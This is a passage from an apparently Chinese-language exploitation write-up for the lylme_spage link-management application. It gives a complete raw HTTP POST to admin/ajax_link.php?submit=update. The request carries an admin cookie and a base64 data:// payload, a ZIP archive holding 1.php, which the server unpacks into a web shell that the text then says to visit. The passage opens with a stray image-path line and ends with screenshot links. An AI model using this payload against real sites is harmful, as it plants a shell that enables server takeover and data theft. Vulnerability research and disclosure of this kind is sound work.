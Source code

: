 3) 获取第二步的结果，构造最终的 payload

```bash
POST /lylme_spage-master/admin/ajax_link.php?submit=update HTTP/1.1
Host: localhost:7777
Connection: close
Cookie: admin_token=ec2a3HYAaqQws10zQfeSJaDeJN1aI2gOnV9BLpaHNYdb2hHPQ9nYkoMzuOuQIokfoyJRVcVNK3aT8JUZXq5WSPqTBQ;
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

file=data://text/plain;base64,UEsDBBQAAAAIALMUSFdQg8x9EgAAABIAAAAFAAAAMS5waHCzsS/IKFAA4sy8tHwNTWt7OwBQSwECFAMUAAAACACzFEhXUIPMfRIAAAASAAAABQAAAAAAAAAAAAAAgAEAAAAAMS5waHBQSwUGAAAAAAEAAQAzAAAANQAAAAAA
```

4) 解压成功之后会返回"success", 之后直接访问生成的 Shell 即可。

[![](assets/1701606448-54c3bc28ee429e88b5ce9028787972ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135519-8be6c002-8ce9-1.png)

[![](assets/1701606448-055a89bae988987f21ac4493be91ae6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135529-91f5f936-8ce9-1.png)
